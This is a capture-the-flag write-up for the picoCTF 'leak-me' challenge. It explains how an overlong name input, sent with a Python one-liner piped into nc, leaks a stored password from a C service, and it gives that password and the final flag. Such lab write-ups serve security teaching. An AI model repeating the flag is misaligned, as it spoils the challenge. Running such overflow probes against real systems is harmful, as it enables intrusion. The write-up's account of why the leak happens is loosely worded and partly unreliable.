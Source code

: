 # leak-me
## Question
>Can you authenticate to this [service](files/auth) and get the flag? Connect with `nc 2018shell.picoctf.com 1271`. [Source](files/auth.c).

## Hints
>Are all the system calls being used safely?

>Some people can have reallllllly long names you know..

# Solution
As we are only provided with a socket access and not the standard shell, we will have very limited capabilities in terms of commands. Let's see what it looks like:
~~~~
$ nc 2018shell.picoctf.com 1271
What is your name?
whatever
Hello whatever,
Please Enter the Password.
idonthave one
Incorrect Password!
~~~~

OK, so we are prompted for a name, it says `Hello` with whatever name has been provided, and then a password. As we don't know the password, it fails with an error message. Now, let's look at the code. Below is the interesting part of the `main` function:

```c
int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  // real pw: 
  FILE *file;
  char password[64];
  char name[256];
  char password_input[64];
  
  memset(password, 0, sizeof(password));
  memset(name, 0, sizeof(name));
  memset(password_input, 0, sizeof(password_input));
  
  printf("What is your name?\n");
  
  fgets(name, sizeof(name), stdin);
  char *end = strchr(name, '\n');
  if (end != NULL) {
    *end = '\x00';
  }

  strcat(name, ",\nPlease Enter the Password.");

  // ...
  // [SNIP]
  // ...
```

A buffer of 256 characters is created for the username, but interestingly, the program searches for the end of our string, to replace it with a `NULL` character. If we provide a string that is longer than what the buffer allows, the end of string won't be found and the `fgets` function should return the password instead of our name.

Let's put that into practice. We'll overflow the buffer with a 257 bytes string for our name:
~~~~
$ python -c "print('A'*257)" | nc 2018shell.picoctf.com 1271
What is your name?
Hello AAAA[SNIP]AAAAA,a_reAllY_s3cuRe_p4s$word_f78570

Incorrect Password!
~~~~

OK, now that we have the password, let's connect again:
~~~~
$ nc 2018shell.picoctf.com 1271
What is your name?
whatever
Hello whatever,
Please Enter the Password.
a_reAllY_s3cuRe_p4s$word_f78570
picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_958ebb8e}
~~~~

# Flag
`picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_958ebb8e}`
